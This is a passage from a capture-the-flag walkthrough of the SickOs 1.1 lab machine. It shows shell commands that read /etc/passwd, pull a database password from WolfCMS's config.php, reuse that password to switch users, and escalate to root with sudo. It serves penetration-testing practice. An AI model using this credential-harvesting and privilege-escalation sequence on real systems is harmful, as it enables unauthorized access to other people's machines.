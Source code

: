 Getting a pseudo-tty bash shell, we then proceed to find available users on the system that we can interact with:

```
www-data@SickOs:/$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
sickos:x:1000:1000:sickos,,,:/home/sickos:/bin/bash
```

Only root and sickos are users with valid bash shells. Let us find out more.

```
www-data@SickOs:/var/www/wolfcms$ cat config.php
<?php 

// Database information:
// for SQLite, use sqlite:/tmp/wolf.db (SQLite 3)
// The path can only be absolute path or :memory:
// For more info look at: www.php.net/pdo

// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');

// output truncated
```

Reading the config.php file of wolfcms reveals to us the username and password for the DB. I smell some password reuse?

```
www-data@SickOs:/var/www/wolfcms$ su - sickos
Password: john@123

sickos@SickOs:~$ sudo -l
[sudo] password for sickos: john@123

Matching Defaults entries for sickos on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sickos may run the following commands on this host:
    (ALL : ALL) ALL
sickos@SickOs:~$ sudo su - root

root@SickOs:~# cat /root/a0216ea4d51874464078c618298b1367.txt 
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying
```
